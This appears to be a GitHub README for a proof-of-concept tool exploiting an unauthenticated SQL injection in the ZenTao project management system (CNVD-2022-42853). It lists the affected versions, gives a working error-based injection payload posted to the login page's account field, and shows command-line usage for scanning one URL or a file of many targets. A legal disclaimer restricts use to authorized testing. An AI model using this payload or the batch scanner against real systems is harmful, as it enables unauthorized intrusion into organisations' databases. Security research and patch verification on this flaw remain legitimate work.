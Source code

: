 # zentao_sqli_poc

author: colind0pe

项目地址: https://github.com/colind0pe/zentao_sqli_poc

## 0x01 声明

- **仅限用于安全研究人员在授权的情况下使用，请遵守网络安全法，如您需要测试本工具的可用性，请自行搭建靶机环境。**

- **严禁未经授权的渗透测试行为，在使用本工具过程中存在的任何非法行为，您需自行承担法律责任。**

## 0x02 漏洞介绍

漏洞名称：禅道未授权SQL注入漏洞

漏洞编号：CNVD-2022-42853

影响范围：

* 禅道企业版 6.5

* 禅道旗舰版 3.0 8

* 禅道开源版 16.5

* 禅道开源版 16.5.beta1

## 0x03 漏洞复现

payload：

``` 
url: /zentao/user-login.html

POST: account=admin'+and+(select+extractvalue(1,concat(0x7e,(MD5(49)),0x7e)))# 
```

## 0x04 使用方法

usage: zentao_sqli_poc.py.py [-h] [-u URL] [-f FILE]

示例: python3 zentao_sqli_poc.py -u http://127.0.0.1/

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target URL
  -f FILE, --file FILE  Targets File Path

## 0x05 Screenshots

![Screenshots](.\Screenshots.png)

